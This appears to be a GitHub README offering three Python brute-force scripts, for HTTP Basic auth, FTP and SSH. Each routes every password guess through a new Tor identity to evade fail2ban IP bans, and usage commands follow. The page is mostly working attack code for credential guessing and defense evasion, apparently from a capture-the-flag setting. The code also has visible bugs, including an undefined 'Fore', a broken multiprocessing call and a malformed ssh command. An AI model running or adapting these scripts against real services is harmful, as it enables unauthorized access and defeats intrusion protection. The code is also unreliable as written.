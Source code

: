 # Fail2ban bypass using TOR

### **Fail2Ban** reads log files from different services and if that contains an authorization failure, it report and bans the corresponding IP addresses using firewall rules. It updates firewall rules to reject the IP address. That means that if we send every request with a different IP Address that results in bypassing this firewall.

#### For the HTTP Bruteforcer we are using random TOR proxies per request using requests-session and that results in bypassing fail2ban. This script uses multiprocessing so we can have faster results.

```python
import random
from multiprocessing import Pool
import requests
import base64
import re

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

username = b'username'

to_brute_force = ["{0:03}".format(i) for i in range(500)]

def execute(index):

    payload = base64.b64encode(username + b':' + bytes(index, 'utf-8'))
    session = requests.session()
    creds = str(random.randint(10000,0x7fffffff)) + ":" + "youtorpassword"

    session.proxies = {
        'http': 'socks5h://{}@localhost:9050'.format(creds),
        'https': 'socks5h://{}@localhost:9050'.format(creds)
    }

    req = session.get(HOST, headers={
        'Authorization': 'Basic '+payload.decode('utf-8')
    })

    if req.status_code == 200:
        print(re.search('FLAG = (.*)', req.text).group(0))


with Pool(processes=16) as pool:
    for i in to_brute_force:
        pool.apply_async(execute(str(i)))

    pool.close()
    pool.join()
```

#### For the FTP Bruteforcer we are using random tor proxies per request using proxychains and that results in bypassing fail2ban. This script uses multiprocessing so we can have faster results.

```python
import ftplib
from threading import Thread
import queue
import os

HOST, PORT = 'localhost', 21

q = queue.Queue()
n_threads = 10

USERNAME = 'username'

flag = True
to_brute_force = ['{0:03}'.format(i) for i in range(500)]

def execute():

    global q
    
    while True:
        os.system('service tor reload')
        index = q.get()
        server = ftplib.FTP()
        print('[!] Trying ' +  str(index))
    
        try:
            server.connect(HOST, PORT, timeout=5)
            server.login(USERNAME, str(index))
    
        except ftplib.error_perm:
            pass
    
        else:
            print('[+] Found credentials: ')
            print(f'\tUser: {USERNAME}'+ str(index))
            print(f'\tPassword: {str(index)}{Fore.RESET}')
            
            with q.mutex:
                q.queue.clear()
                q.all_tasks_done.notify_all()
                q.unfinished_tasks = 0

        finally:
            q.task_done()


for i in to_brute_force:
    q.put(i)

for t in range(n_threads):
    thread = Thread(target=execute)
    thread.daemon = True
    thread.start()

q.join()
```

#### For the SSH Bruteforcer we are using random tor proxies per request using proxychains and that results in bypassing fail2ban. `StrictHostKeyChecking=no` is used to make our attempts without strict host key checking.

```python
import os

HOST, PORT = 'localhost', 22

USERNAME = 'username'

to_brute_force = ['{0:03}'.format(i) for i in range(500)]

try:
    for index in to_brute_force:
        os.system('service tor reload')
        print('Trying with: ' + index)
        
        execute = 'proxychains sshpass -p ' + str(index) + ' ssh -o StrictHostKeyChecking=no' + f'{USERNAME}@{HOST} -p {PORT}'
        os.system(execute)

except (KeyboardInterrupt, SystemExit):
    exit()
```

# Usage:

### For the HTTP Bruteforcer use:

```bash
$ python http_fail2ban_bypass.py
```

### For the FTP Bruteforcer use:

```bash
$ sudo proxychains python ftp_fail2ban_bypass.py
```

### For the SSH Bruteforcer use:

```bash
$  sudo proxychains ssh_fail2ban_bypass.py
```
